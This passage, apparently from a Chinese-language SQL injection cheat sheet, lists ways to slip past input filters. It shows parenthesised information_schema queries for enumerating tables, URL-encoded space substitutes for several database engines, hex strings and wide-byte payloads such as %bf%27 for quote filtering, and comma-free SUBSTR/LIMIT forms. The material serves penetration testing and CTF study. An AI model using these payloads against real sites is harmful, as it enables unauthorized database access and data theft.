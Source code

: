     ```sql
    select(group_concat(table_name))
    from(information_schema.tables)
    where(table_schema=database())
    ```

- 使用符号替代空格 

    ```
    %20 	空格
    %09		TAB 键（水平）
    %0b		TAB 键（垂直）
    %0d		return 功能
    %0c		新的一页
    %a0		空格
    %0a		新建一行
    
    SQLite3 0A 0D 0C 09 20 
    MySQL5 09 0A 0B 0C 0D A0 20 
    PosgresSQL 0A 0D 0C 09 20 
    Oracle 11g 00 0A 0D 0C 09 20 
    MSSQL 01,02,03,04,05,06,07,08,09,0A,0B,0C,0D,0E,0F,10,11,12,13,14,15,16,17,18,19,1A,1B,1C,1D,1E,1F,20
    ```


#### 引号

```sql
select column_name from information_schema.tables where table_name="users"
```

如果引号被过滤了，那么上面的`where`子句就失效了，此时可以使用**十六进制**。
`users`的十六进制的字符串是`7573657273`。那么最后的sql语句就变为了：

```sql
select column_name from information_schema.tables where table_name=0x7573657273
```

**宽字节绕过**

```
%bf%27 %df%27 %aa%27
```

#### 逗号

`substr()`, ` mid()` 里的逗号可用 `from for` 代替

```sql
select substr(database() from -1);
select substr(database() from 1 for 1);
select mid(database() from 1 for 1);
```

对于 `limit` 里面的逗号可以使用 `offset` 绕过

```sql
select * from news limit 0,1
<=>
select * from news limit 1 offset 0
```
